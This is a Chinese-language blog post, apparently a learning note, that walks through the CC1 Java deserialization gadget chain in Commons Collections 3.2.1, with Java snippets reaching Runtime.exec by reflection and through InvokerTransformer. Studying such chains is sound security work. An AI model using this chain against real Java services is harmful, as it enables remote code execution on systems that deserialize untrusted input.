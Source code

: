 ```yaml
---
layout: post
title: CC链-CC1
subtitle: Let's start learning!
tags: [books, test]
author: Sine
---
```


# CC1

JDK版本小于JDK-8u71，commons-collections版本等于3.2.1

## CC1-1

**利用链：**

**AnnotationInvocationHandler.readobject()->setValue()-> TransformedMap.checkSetValue()->chainedTransformer.transform->new ConstantTransformer（Runtime.class）->return this.iConstant(Runtime.class)->getMethod(getRuntime)->invoke->exec(“”)**

Transformed是一个接口类，提供了一个transform方法

![image-20250219095324974](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250219095330464.png)

InvokerTransformer实现了Transformed，它的transform方法实现了反射，可以调用任意方法，类为传入的input参数

![image-20250217164602236](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217164602280.png)

且方法名、参数类型和参数值在构造方法中赋值，可控

![image-20250217170114241](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217170114341.png)

可以初始化一个InvokerTransformer类对象，调用transform方法

首先，我们直接使用反射去调用Runtime的exec方法来执行命令是这样的

```JAVA
Runtime runtime = Runtime.getRuntime();
Class runtimeClass=runtime.getClass();
Method execMethod=runtimeClass.getMethod("exec", String.class);
execMethod.invoke(runtime,"open /Applications/NeteaseMusic.app");
```

成功弹出app

![image-20250217171517418](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217171517455.png)

利用InvokerTransformer来调用，先初始化一个InvokerTransformer对象，传入方法名为要调用的方法exec，参数类型为字符串（Class[]格式），参数值即要执行的命令，再调用初始化InvokerTransformer对象的transform方法，传入的参数为要反射调用的类

```java
Runtime runtime = Runtime.getRuntime();
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open /Applications/NeteaseMusic.app"}).transform(runtime);
```
